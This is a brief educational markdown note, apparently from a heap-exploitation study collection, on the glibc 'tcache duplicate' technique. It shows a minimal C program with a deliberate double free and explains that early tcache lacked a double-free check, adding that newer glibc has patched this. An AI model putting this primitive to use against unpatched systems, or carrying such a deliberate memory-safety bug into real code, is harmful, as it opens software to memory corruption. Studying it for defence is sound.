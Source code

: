# Tcache duplicate
> LongChampion, 21/03/2020

This attack work as `fastbin_dup`:
```c
#include <stdlib.h>

int main()
{
    void *a = malloc(0x100);
    free(a);
    free(a);
    void *a1 = malloc(0x100);
    void *a2 = malloc(0x100);
}
```
Unlike fastbin, early version of tcache is lack of many security checks, include *double free checking*. So we even no need to free a temporary chunk to bypass this check (we can't bypass the check that doesn't exits).

## Note
Because the attack is very simple, it have been patched and no longer work against newer version of **GLIBC**.
You should read `calc_tcache_idx.md` for more information about tcache_bin.
